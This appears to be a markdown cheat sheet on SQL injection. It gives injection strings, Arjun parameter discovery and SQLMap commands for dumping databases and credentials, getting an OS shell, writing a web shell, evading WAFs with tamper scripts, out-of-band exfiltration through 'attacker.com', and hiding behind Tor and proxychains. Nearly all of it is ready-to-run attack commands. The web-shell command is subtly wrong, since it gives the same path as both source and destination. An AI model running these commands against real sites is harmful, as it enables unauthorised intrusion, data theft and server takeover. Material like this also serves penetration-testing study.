# SQL Injection (SQLi) & SQLMap Guide

## Identifying SQL Injection Points

1. Look for **input fields** and **URLs with parameters**:
    - Example:
        
        ```
        username = Ahmed, Password = 12345
        ```
        
    - SQL Injection attempts:
        
        ```
        username = Ahmed' --  
        username = Ahmed'; --
        username = ' OR 1=1 --
        username = ' OR 1=1; --
        ```
        

---

## Arjun - Discover HTTP Parameters

Arjun is designed to discover **HTTP parameters**:

- Basic usage:
    
    ```bash
    arjun -u "http://example.com/page.php"
    ```
    
- Specify HTTP method:
    
    ```bash
    arjun -u "http://example.com/page.php" -m POST
    ```
    
- Include headers (e.g., cookies, auth tokens):
    
    ```bash
    arjun -u "http://example.com/page.php" -H "Cookie: session=1234"
    ```
    
- Use a custom wordlist:
    
    ```bash
    arjun -u "http://example.com/page.php" -w /path/to/wordlist.txt
    ```
    
- Test for parameters in JSON data (for APIs):
    
    ```bash
    arjun -u "http://example.com/api" -j '{"key":"value"}'
    ```
    

For JSON-based POST requests:

1. Right-click > Change Request Method > Edit Content Type > Set to `application/json`
2. Add JSON body: `{ "id" : 1}`
3. Replace `1` with `*` and send it to SQLMap.

---

## SQLMAP - Automated SQL Injection Tool

- Basic SQL injection test:
    
    ```bash
    sqlmap -u "http://example.com/page.php?id=1"
    ```
    
- Specify parameter:
    
    ```bash
    sqlmap -u "http://example.com/page.php?offset=1" -p offset
    ```
    
- Use request file:
    
    ```bash
    sqlmap -r file.txt
    ```
    
- Specify HTTP method (GET/POST):
    
    ```bash
    sqlmap -u "http://example.com/page.php" --data="id=1" --method=POST
    ```
    

### Examples on POST Requests

- **User Login Form**
- **Search Function**
    
    ```bash
    sqlmap.py -u http://example.com/login --data="query=test"
    ```
    
- **Feedback Submission**
- Using cookies for authentication:
    
    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=1234"
    ```
    
    or:
    
    ```bash
    sqlmap -u "http://example.com/page.php" -H "Cookie:id=*"
    ```
    
- Increase verbosity:
    
    ```bash
    sqlmap -u "http://example.com/page.php?id=1" -v 6
    ```
    
    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --level 5 --risk 3
    ```
    

---

## SQLMAP Database Enumeration

- Retrieve all databases:
    
    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dbs
    ```
    
- Enumerate tables in a specific database:
    
    ```bash
    sqlmap -u "http://example.com/page.php?id=1" -D <database_name> --tables
    ```
    
- Dump data from a specific table:
    
    ```bash
    sqlmap -u "http://example.com/page.php?id=1" -D <database_name> -T <table_name> --dump
    ```
    
- Dump all data:
    
    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dump-all
    ```
    
- Advanced attack:
    
    ```bash
    sqlmap -u "http://example.com/app.php?id=10" -p id --dbms=PostgreSQL --dump --tables -T users --columns -C username,password --batch --headers="X-Forwarded-For: 127.0.0.1\nAuth-Token: abcdef12345"
    ```
    

---

## SQLMAP Techniques

- **Boolean-based blind (B)**
- **Error-based (E)**
- **Union query-based (U)**
- **Stacked queries (S)**
- **Time-based blind (T)**
- **Inline queries (Q)**
- Use all:
    
    ```bash
    --technique=BEUSTQ
    ```
    

---

## Privilege Escalation & OS Command Execution

- Identify OS and database details:
    
    ```bash
    sqlmap -u "http://example.com/index.php?id=1" --current-user --current-db --hostname --is-dba
    ```
    
- Execute OS commands:
    
    ```bash
    sqlmap -u "http://example.com/index.php?id=1" --os-shell
    ```
    
- Privilege enumeration:
    
    ```bash
    sqlmap -u "http://example.com/index.php?id=1" --privileges
    ```
    
- Writing a web shell:
    
    ```bash
    sqlmap -u "http://example.com/index.php?id=1" --file-write="/var/www/html/shell.php" --file-dest="/var/www/html/shell.php"
    ```
    

---

## Tampering & Bypassing WAFs

### SQLMap Tamper Scripts

- List all available scripts:
    
    ```bash
    sqlmap --list-tampers
    ```
    
- Use tamper scripts:
    
    ```bash
    sqlmap -u "http://example.com/login.php?id=1" --dbs --tamper=space2comment,randomcase,charencode
    ```
    

### Common Tamper Techniques

- **space2comment.py** - Converts spaces to comments (`/**/`)
- **randomcase.py** - Randomizes case of SQL keywords
- **charencode.py** - Encodes characters into **CHAR()** format
- **base64encode.py** - Encodes payloads in Base64
- **between.py** - Replaces `=` with `BETWEEN`

---

## Firewall Detection & Bypassing

### WAF Detection

- Use WafW00f to detect firewalls:
    
    ```bash
    wafw00f http://example.com
    ```
    

### Bypassing WAFs

- Using HTTP Parameter Pollution:
    
    ```bash
    sqlmap -u "http://example.com/index.php?id=1&id=2" --dbs
    ```
    
- Out-of-Band (OOB) attacks:
    
    ```bash
    sqlmap -u "http://example.com/index.php?id=1" --dbs --dns-domain=attacker.com
    ```
    
- IP Spoofing with Tor & ProxyChains:
    
    ```bash
    sudo apt install tor proxychains4 -y
    sudo service tor start
    proxychains sqlmap -u "http://example.com/index.php?id=1" --dbs
    ```
    

---

## Additional SQLMap Options

- Avoid blocking:
    
    ```bash
    --random-agent
    ```
    
- Set referer:
    
    ```bash
    --referer="Google"
    ```
    
- Ignore specific error codes:
    
    ```bash
    --ignore-code <error_code>
    ```
    

---